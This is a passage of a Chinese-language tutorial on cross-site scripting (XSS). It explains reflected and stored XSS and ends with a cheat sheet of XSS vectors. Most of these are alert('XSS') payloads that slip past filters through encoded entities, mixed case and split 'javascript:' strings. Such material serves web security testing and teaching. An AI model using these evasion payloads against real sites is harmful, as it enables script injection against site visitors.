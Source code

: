 例如：

~~~
http://www.test.com/search.php?key="><script>alert("XSS")</script>"
~~~

url转码成不易读的形式，更具有迷惑性。


### 持久型 XSS , Persistent Cross-site Scripting

也称存储型XSS（Stored Cross-site Scripting），比反射型XSS更具威胁，可能影响到Web服务器自身安全。

持久型XSS，恶意脚本被存储到客户端或者服务器的数据库中，当其他用户浏览该网页时，站点即从数据库中读取恶意用户存入的非法数据，显示在页面中，即在受害者主机上的浏览器执行恶意代码。



## XSS CheatSheet / XSS vectors

~~~

<!-- Replacive fuzzing -->

http://www.example.com/>"><script>alert("XSS")</script>&
http://www.example.com/'';!--"<XSS>=&{()}

>"><script>alert("XSS")</script>&
"><STYLE>@import"javascript:alert('XSS')";</STYLE>
>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;
 alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>

>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>
'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'
">
>"
'';!--"<XSS>=&{()}
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')> 
<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>
<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;&#99;&#114;&#105;&#112;&<WBR>#116;&#58;&#97;
 &#108;&#101;&<WBR>#114;&#116;&#40;&#39;&#88;&#83<WBR>;&#83;&#39;&#41>
<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116&#0000058
 &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>
           
<IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74&#x28
 &<WBR>#x27&#x58&#x53&#x53&#x27&#x29>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">
<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">
~~~
